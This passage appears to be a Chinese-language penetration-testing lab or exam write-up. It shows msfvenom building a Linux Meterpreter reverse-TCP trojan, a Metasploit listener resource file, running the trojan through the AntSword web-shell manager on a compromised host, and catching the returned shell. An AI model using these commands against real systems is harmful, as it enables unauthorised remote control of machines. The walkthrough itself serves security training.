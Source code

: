 MSF生成木马文件，木马文件名为

**4444.elf**

```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=192.168.81.131 lport=4444 -f elf  >4444.elf
```

![image-20220401114058486](第3次 考试测试.assets/image-20220401114058486.png)

## 3.2 kali监听

在目录**home/xxb1**创建**linux.rc**文件，并添加下列内容

```
vim linux.rc  #创建文件
```

添加的内容如下

```
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.81.131
set LPORT 4444
exploit
```

![image-20220318151533016](第3次 考试测试.assets/image-20220318151533016.png)

服务端监听，监听后在蚁剑上运行我们上传的木马文件

```
msfconsole  -qr /home/xxb1/linux.rc 
```

蚁剑运行木马文件

```
chmod +x 4444.elf
./4444.elf
```

![image-20220401114210173](第3次 考试测试.assets/image-20220401114210173.png)



返回kali，已经成功反弹

![image-20220401114252621](第3次 考试测试.assets/image-20220401114252621.png)

## 3.3 获得shell

```
shell
```

![image-20220401114430174](第3次 考试测试.assets/image-20220401114430174.png)
